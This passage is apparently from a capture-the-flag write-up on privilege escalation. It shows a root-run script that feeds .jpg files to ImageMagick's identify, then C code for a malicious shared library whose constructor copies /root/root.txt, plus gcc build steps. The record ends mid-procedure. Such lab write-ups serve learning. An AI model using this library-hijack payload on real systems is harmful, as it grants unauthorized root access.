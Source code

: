 
```bash
cd /opt
```

![image](https://github.com/user-attachments/assets/b32380cc-d09e-4e43-8792-d979241253b7)

> ### the script work as ``Root``

```css
-rwxr-xr-x 1 root root 167 Feb  3 17:11 /opt/scripts/identify_images.sh
```

now we will see content of ``identify_images.sh``

```bash
cat identify_images.sh 
```


```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

> #### This means that any ``.jpg`` file in this directory will be automatically processed by ``identify`` when the script runs. Given this behavior, I decided to investigate whether ``ImageMagick`` had any known vulnerabilities.


on ``/opt/app/static/assets/images`` do :

```bash
nano exploit.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
```


now do compile to library :

```
gcc -x c -shared -fPIC -o libxcb.so.1 exploit.c
```

copy any image form directoy you in but with new name:

```bash
cp entertainment.jpg exploit.jpg
```
